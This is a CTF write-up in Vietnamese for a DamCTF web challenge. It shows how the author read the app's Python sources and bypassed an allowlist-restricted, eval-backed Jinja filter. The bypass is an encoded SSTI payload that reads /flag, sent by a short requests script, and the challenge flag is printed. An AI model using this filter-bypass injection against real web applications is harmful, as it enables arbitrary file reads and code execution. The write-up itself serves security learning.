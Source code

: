 ![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/4.png)
</br>
tôi rất là vui vì tôi solve lượt 6, đây là lần đầu trong một cuộc thi ctf có hơn 500 đội mà tôi solve nhanh vậy
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/5.png)

bài này tác giả có cho `super-secure-translation-implementation.zip` là một file zip chỉ có file __Dockerfile__ giúp xác định được vị trí của flag ở __/flag__
</br> khi vào web sẽ hiện ra source code python của file __app.py__
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/6.png)
đọc kỹ đoạn này ta thấy rằng
```@server.route("/")
@server.route("/<path>")
def index(path=""):
    # Show app.py source code on homepage, even if not requested.
    if path == "":
        path = "app.py"

    # Make this request hackproof, ensuring that only app.py is displayed.
    elif not os.path.exists(path) or "/" in path or ".." in path:
        path = "app.py"

    # User requested app.py, show that.
    with open(path, "r") as f:
        return render_template("index.html", code=f.read())
  ``` 
  giúp ta có thể đọc file trong thư mục __/chal__ bằng việc thay đổi path url, vì dấu `..` và `/` đã bị filter nên không thể đọc bên ngoài thư mục __/chal__
  ```
from check import detect_remove_hacks
from filters import *
```
để ý đoạn này, file app.py có tham chiếu đến 2 file khác là __check.py__ và __filters.py__ vậy ta chỉ cần truy cập đến 
đường dẫn `https://super-secure-translation-implementation.chals.damctf.xyz/check.py` để xem nội dung file __check.py__ 
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/7.png)
và đường dẫn `https://super-secure-translation-implementation.chals.damctf.xyz/filters.py` để xem nội dung __filters.py__
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/8.png)
</br>tóm tắt là chỉ cần chèn payload vào __/secure_translate?payload=__ để tấn công ssti nhưng chỉ có một số ký tự được cho phép còn lại đều bị filter
</br> những ký tự không bị filter
```  
allowlist = [
        "c", "{","}","d","6","l","(","b","o","r",")",'"',"1","4","+","h","u","-","*","e","|","'",
 ]
```
Phân tích một chút những dòng lệnh này ở file __app.py__
```
server = Flask(__name__)

# Add filters to the jinja environment to add string
# manipulation capabilities
server.jinja_env.filters["u"] = uppercase
server.jinja_env.filters["l"] = lowercase
server.jinja_env.filters["b64d"] = b64d
server.jinja_env.filters["order"] = order
server.jinja_env.filters["ch"] = character
server.jinja_env.filters["e"] = e
```
tóm tắt là ý nghĩa rằng hàm e là __eval__ và hàm ch là __chr__ được tham chiều từ file check.py, ta sẽ tiếp tục phân ở hàm e xem file filters.py
```
def e(x):
    # Security analysts reviewed this and said eval is unsafe (haters).
    # They would not approve this as "hack proof" unless I add some
    # checks to prevent easy exploits.

    print(f"Evaluating: {x}")

    forbidlist = [" ", "=", ";", "\n", ".globals", "exec"]

    for y in forbidlist:
        if y in x:
            return "Eval Failed: Foridlist."

    if x[0:4] == "open" or x[0:4] == "eval":
        return "Not That Easy ;)"

    try:
        return eval(x)
    except Exception as exc:
        return f"Eval Failed: {exc}"
```
4 ký tự đầu không được là __open__ và __exec__ 
</br>Payload của tôi là `{{(""+open('/flag').read())|e}}` để bypass filter tôi đã sửa thành `{{('""%2bo'%2b((111%2b1)|ch)%2b'e'%2b((111-1)|ch)%2b'("'%2b((46%2b1)|ch)%2b((114-11-1)|ch)%2b'l'%2b((46%2b46%2b6-1)|ch)%2b((114-11)|ch)%2b'")'%2b(46|ch)%2b're'%2b((46%2b46%2b6-1)|ch)%2b'd()')|e}}` độ dài payload 153, giới hạn độ dài của payload qui định là 161
</br> và đây là
flag mà tôi tìm được __dam{p4infu1_all0wl1st_w3ll_don3}__
</br> cách giải của tôi
```

import requests
s = requests.session()
payload='''{{('""%2bo'%2b((111%2b1)|ch)%2b'e'%2b((111-1)|ch)%2b'("'%2b((46%2b1)|ch)%2b((114-11-1)|ch)%2b'l'%2b((46%2b46%2b6-1)|ch)%2b((114-11)|ch)%2b'")'%2b(46|ch)%2b're'%2b((46%2b46%2b6-1)|ch)%2b'd()')|e}}''' 

url = 'https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload='+payload
res = s.get(url).text
print(res)
```
